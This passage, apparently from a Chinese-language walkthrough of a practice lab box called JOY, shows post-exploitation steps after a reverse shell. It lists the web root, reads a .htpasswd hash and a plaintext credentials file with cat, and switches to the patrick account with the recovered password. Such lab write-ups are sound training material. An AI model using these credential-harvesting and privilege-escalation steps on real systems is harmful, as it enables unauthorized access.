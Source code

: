 ```
221 Goodbye.
Connection closed by foreign host.

```  
  
反弹成功  
  
![image-20250204224220908](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWH8MpNCia3Aa7ficRHkibbxGHyj6B8auibvdfTzdXwCQOYhoE5VUsYgwViaqiboCSwwlUibia7x626ZzKuSjQ/640?wx_fmt=png&from=appmsg "")  
  
image-20250204224220908  
  
开始提权，在网站根目录下面看到了patricksecretsofjoy文件包含了账号密码信息  
```
www-data@JOY:/var/www/tryingharderisjoy/ossec$ ls -al
ls -al
total 116
drwxr-xr-x 8 www-data www-data  4096 Jan  6  2019 .
drwxr-xr-x 3 www-data www-data  4096 Feb  4 22:41 ..
-rw-r--r-- 1 www-data www-data    92 Jul 19  2016 .hgtags
-rw-r--r-- 1 www-data www-data   262 Dec 28  2018 .htaccess
-rw-r--r-- 1 www-data www-data    44 Dec 28  2018 .htpasswd
-rwxr-xr-x 1 www-data www-data   317 Jul 19  2016 CONTRIB
-rw-r--r-- 1 www-data www-data 35745 Jul 19  2016 LICENSE
-rw-r--r-- 1 www-data www-data  2106 Jul 19  2016 README
-rw-r--r-- 1 www-data www-data   923 Jul 19  2016 README.search
drwxr-xr-x 3 www-data www-data  4096 Jul 19  2016 css
-rw-r--r-- 1 www-data www-data   218 Jul 19  2016 htaccess_def.txt
drwxr-xr-x 2 www-data www-data  4096 Jul 19  2016 img
-rwxr-xr-x 1 www-data www-data  5177 Jul 19  2016 index.php
drwxr-xr-x 2 www-data www-data  4096 Jul 19  2016 js
drwxr-xr-x 3 www-data www-data  4096 Dec 28  2018 lib
-rw-r--r-- 1 www-data www-data   462 Jul 19  2016 ossec_conf.php
-rw-r--r-- 1 www-data www-data   134 Jan  6  2019 patricksecretsofjoy
-rwxr-xr-x 1 www-data www-data  2471 Jul 19  2016 setup.sh
drwxr-xr-x 2 www-data www-data  4096 Dec 28  2018 site
drwxrwxrwx 2 www-data www-data  4096 Feb  4 21:32 tmp
www-data@JOY:/var/www/tryingharderisjoy/ossec$ cat .htpasswd
cat .htpasswd
admin:$apr1$3Jv2Ok6H$4BMdXenVBmD2E3kXe8RVL.
www-data@JOY:/var/www/tryingharderisjoy/ossec$ cat patricksecretsofjoy
cat patricksecretsofjoy
credentials for JOY:
patrick:apollo098765
root:howtheheckdoiknowwhattherootpasswordis

how would these hack3rs ever find such a page?
www-data@JOY:/var/www/tryingharderisjoy/ossec$ su root
su root
Password: howtheheckdoiknowwhattherootpasswordis

su: Authentication failure
www-data@JOY:/var/www/tryingharderisjoy/ossec$ su patrick
su patrick
Password: apollo098765

patrick@JOY:/var/www/tryingharderisjoy/ossec$ whoami
whoami
patrick

```  
  